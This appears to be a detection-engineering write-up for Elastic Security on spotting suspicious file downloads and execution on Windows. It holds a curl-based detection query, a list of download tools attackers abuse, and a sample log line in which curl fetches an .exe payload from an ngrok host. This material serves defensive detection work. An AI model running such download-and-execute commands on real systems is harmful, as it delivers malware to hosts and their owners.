

# Suspicious File Download & Execution

##  Scenario Description

  An attacker or malicious script downloads a file from the internet (often via PowerShell, curl, or certutil) and then executes it on a Windows host. This technique is widely used in malware delivery, phishing payloads, and initial access operations.

**Common tools/methods:**
- `Invoke-WebRequest` or `Invoke-Expression` in PowerShell
- `certutil.exe` used to fetch remote files
- `bitsadmin.exe` or `curl.exe` for stealthy transfers
- Execution of the downloaded payload (e.g., EXE, DLL, or script)
## Objective
  Detect suspicious file downloads from remote sources followed by execution of the downloaded file. The goal is to identify early-stage malware delivery and initial execution, helping to stop attacks in the initial phases of the kill chain.

## Detection Logic / Query

```sh
process.name: "curl.exe" and 
file.extension: ("exe" or "dll" or "ps1" or "bat" or "vbs" or "zip")
```

## Sample Alert Screenshot



## Logs or Sample Event
```powershell
"May 31, 2025 @ 14:11:25.639","curl  https://8f23-2401-4900-4deb-7fc2-3703-39b4-73d6-579b.ngrok-free.app/NORTHERN_POSSIBILITY.exe -o payload.exe","curl.exe","-"
```
## Detection Status

-  Tested in Elastic Security 8.x
-  Triggered with real-world download & run simulation
-  Needs tuning for false positives in enterprise environment